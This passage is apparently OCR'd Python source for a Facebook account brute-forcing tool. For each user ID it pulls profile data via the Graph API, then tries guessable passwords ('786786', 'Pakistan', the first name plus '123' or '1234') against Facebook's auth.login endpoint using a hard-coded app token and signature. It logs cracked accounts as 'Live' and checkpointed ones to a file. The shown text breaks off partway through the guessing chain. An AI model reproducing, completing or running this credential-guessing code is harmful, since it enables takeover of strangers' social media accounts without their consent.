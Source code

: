 			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('cookie')
		except OSError:
			pass #Dev:SOMI
		try:
			k = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			y = json.loads(k.text)
			pass1 = ('786786')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			s = json.load(data)
			if 'access_token' in s:
				print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in s["error_msg"]:
					print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass1
					cek = open("out/checkpoint.txt", "k")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = 'Pakistan'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					s = json.load(data)
					if 'access_token' in s:
						print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in s["error_msg"]:
							print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass2
							cek = open("out/checkpoint.txt", "k")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = y['first_name'] + '123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							s = json.load(data)
							if 'access_token' in s:
								print '\x1b[1;93mLive\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in s["error_msg"]:
									print '\x1b[1;93mError\x1b[1;97m \x1b[1;97m\x1b[1;97m ' + user + ' \x1b[1;97m\x1b[1;97m ' + pass3
									cek = open("out/checkpoint.txt", "k")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = y['first_name'] + '1234'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									s = json.load(data)